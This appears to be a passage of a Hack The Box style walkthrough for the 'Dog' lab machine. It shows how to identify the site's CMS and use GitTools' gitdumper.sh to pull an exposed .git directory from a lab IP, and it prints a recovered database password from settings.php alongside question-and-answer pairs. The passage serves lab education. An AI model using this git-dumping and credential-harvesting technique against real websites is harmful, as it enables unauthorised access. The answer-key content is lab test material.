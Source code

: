 Step 3: Visiting the site and getting info

```bash
sudo nano /etc/hosts # add the $IP to visit the website
#very common in ctf and HTB
```
```
*steps*
visit the site with the url http://10.129.186.26/
look at bottom of the page for the CMS
CMS = content-management-system
manages the website *example: wordpress, Backdrop CMS*

```
```
*question*
What is the CMS used to make the website on Dog? Include a space between two words.

*answer*
Backdrop CMS

```

Step 4: Going through the .git database

```bash
git clone https://github.com/internetwache/GitTools.git  ##usefull tools to scan git repositories in web applications
cd Dumper ##Tool to download git reposiroy to our pc
bash gitdumper.sh http://10.129.185.168/.git/ ~/HTB/DOG #This is the script

##Will takes couple of minutes

#After completion
git checkout -f #inside created directory

#look for password
#hint: settings file --> open in geany

```
```
*steps*
download git tools
run Dumper on url
convert binary to text git directory using git checkout
using text mamipulation and logical scanning find the password
password is found in settings.php in the line:
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop'; 

```
```
*question*
What is the password the application uses to connect to the database?

*answer*
BackDropJ2024DS2024

```
